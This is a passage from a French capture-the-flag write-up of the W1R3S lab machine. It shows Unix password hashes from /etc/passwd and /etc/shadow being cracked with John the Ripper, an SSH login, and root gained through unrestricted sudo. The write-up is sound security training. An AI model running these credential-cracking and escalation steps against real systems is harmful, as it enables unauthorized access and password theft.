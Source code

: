 C'était assez inattendu ! Tant mieux, l'outil [__John The Ripper__](https://www.openwall.com/john/) est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit... Au passage, John a également trouvé le mot de passe de ```www-data``` qui n'est autre que... ```www-data```.

```console
root@blinils:~# unshadow passwd.txt shadow.txt > logins.db
root@blinils:~# john logins.db --wordlist=/media/sf_share/dicts/500-worst-passwords.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
1g 0:00:00:02 DONE (2018-08-08 08:08) 0.4608g/s 230.4p/s 519.8c/s 519.8C/s arthur..albert
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Élévation de privilèges (root)

La fin de ce CTF est une formalité.

w1r3s est autorisé à exécuter toutes les commandes via sudo, on peut alors passer root avec la commande ```sudo su```.

```console
root@blinils:~# ssh w1r3s@192.168.56.101
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@192.168.56.101's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

108 packages can be updated.
6 updates are security updates.

.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35

w1r3s@W1R3S:~$
w1r3s@W1R3S:~$ sudo -l
sudo: unable to resolve host W1R3S: Connection refused
[sudo] password for w1r3s: 
Matching Defaults entries for w1r3s on W1R3S:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S:
    (ALL : ALL) ALL
	
w1r3s@W1R3S:~$ sudo su
sudo: unable to resolve host W1R3S: Connection refused

root@W1R3S:/home/w1r3s# id
uid=0(root) gid=0(root) groups=0(root)

root@W1R3S:/home/w1r3s# wc -c /root/flag.txt
```